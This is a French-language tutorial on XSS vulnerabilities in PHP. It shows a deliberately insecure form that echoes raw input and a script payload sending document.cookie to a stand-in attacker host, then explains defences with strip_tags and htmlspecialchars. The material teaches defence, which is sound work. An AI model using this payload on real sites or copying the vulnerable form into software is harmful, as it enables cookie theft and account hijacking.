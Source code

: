 # Les failles XSS

# La faille

La faille XSS, de son nom complet Cross-Site Scripting, est une faille qui permet d'injecter du code HTML et/ou Javascript dans des variables ou bases de données mal protégées.
Que le XSS soit permanent (stocké en base de données) ou non, son fonctionnement sera le même.
Il consiste à injecter du code dans une variable ou base de données afin de faire en sorte que le site se connecte à un site distant (Cross-site) contenant un code malveillant.
Le site distant pourra donc, par exemple, accéder aux cookies stockés sur le site d'origine, la requête provenant de ce site.

Un exemple sera plus parlant qu'un long discours.

Imaginons un pirate qui identifie qu'un site inscrit des informations personnelles dans un cookie comme ceci

```php
setcookie("nom_du_cookie", "données personnelles stockées", time()+3600);
```
![img.png](img.png)


Le pirate recherchera donc un formulaire vulnérable sur le site.
Si le formulaire est trouvé, il pourraît par exemple ressembler à ceci (formulaire simplifié)

```php
<?php
// Le site stocke le cookie
setcookie("information", "donnees perso", time()+3600);

// On traite le formulaire de façon non sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = $_GET['prenom'];
}
?>

<form method="get">
    <input type="text" name="prenom">
    <button>Valider</button>
</form>

<?php
    // On affiche la saisie du formulaire
    if(isset($prenom)){
        echo $prenom;
    }
```

Le pirate pourra donc insérer le code ci-dessous dans le formulaire et récupérer le contenu du cookie depuis son site distant.

```js
<script>window.location='http://serveurpirate.test/vol_cookie.php?cookie='+document.cookie;</script>
```

![img_1.png](img_1.png)

![img_2.png](img_2.png)

## La protection

Pour se protéger contre les failles XSS, nous avons deux solutions principales, selon le contexte :
- Supprimer tout contenu HTML de la saisie dans le formulaire
- Neutraliser les caractères formant les balises HTML

### Supprimer le contenu HTML

Si on souhaite supprimer tout le contenu HTML de ce qui est récupéré lors de la saisie, nous pourrons utiliser l'instruction "strip_tags" dont le rôle est de supprimer les balises HTML en autorisant éventuellement certaines d'entre-elles.

Le traitement de notre formulaire deviendra donc:
```php
// On traite le formulaire de façon sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = strip_tags($_GET['prenom']);
}
```

La variable "prenom" contiendra toute la saisie de l'utilisateur sans les balises "script".

### Neutraliser les caractères

Si on souhaite neutraliser les caractères formant les balises HTML de ce qui est récupéré lors de la saisie, nous pourrons utiliser l'instruction "htmlspecialchars" dont le rôle est de neutraliser certains caractères (&, ", <...) en les remplaçant par leurs codes (&amp;...) ou "htmlentities" dont le rôle est de modifier toutes les balises HTML.

Le traitement de notre formulaire deviendra donc:
```php
// On traite le formulaire de façon sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = htmlspecialchars($_GET['prenom']);
}
```

La variable "prenom" contiendra toute la saisie de l'utilisateur y compris les balises "script" qui sont "neutralisées".